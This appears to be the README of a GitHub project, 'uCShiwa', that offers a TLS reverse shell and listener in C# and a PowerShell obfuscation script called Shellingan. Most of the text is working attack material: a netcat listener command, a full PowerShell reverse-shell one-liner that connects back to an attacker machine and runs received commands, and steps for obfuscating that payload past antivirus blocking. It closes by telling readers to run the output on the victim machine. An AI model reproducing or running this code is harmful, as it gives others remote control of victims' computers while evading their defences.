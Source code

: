 # uCShiwa
- TLS encrypted reverseshell and listener in C#
- Obfuscation script in PowerShell.


## Help & Documentation

Execute it without any options to print help

## Linux

Use the .NET Core to run the listener from Linux


## Disclamer

Consider online pfx file as compromised, use you own certificates !

## Powershell (beta)

`pwsh 1` to switch in powershell mode

## Using the Standalone Shellingan.ps1

This script is a simple recursive PowerShell command obfuscation function

### Import

```powershell
. .\shellingan.ps1
```

### Hello World 

```powershell
Invoke-Shellingan -cmd 'write helloworld' -iex $true -recurse 1
```
Then you just have to copy-paste the output where you want execute it.

### Obfuscation POC

From your attack machine:
```console
nc64.exe -lnvp <port>
```

```powershell
$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <attacking machine>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()
```

```console
This script contains malicious content and has been blocked by your antivirus software.
```

```powershell
Invoke-Shellingan -iex $true -cmd '$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <ip>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()'
```

output:
```powershell
<O> SHELLINGAN : Simple Recursive Powershell Command Obfuscation - for training purpose
|
<cmd> : $c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT...
<iex> : True
<rec> : 0
|
<O> SHELLINGAN:
$186=255;$208=[SYStEM.TexT.ENCoDiNg];$102=$208::Utf8.gETByTeS('');$208::AsCii.GetString($(([bytE]55,86,80,97...
```
Copy and Execute the output on the victim machine to get your reverse shell !

### Shellingan Options

```console
-cmd: Mandatory
-iex: add invoke-expression (usefull to execute your commands)
-recurse: number of obfuscation loop (increase output length!)
```

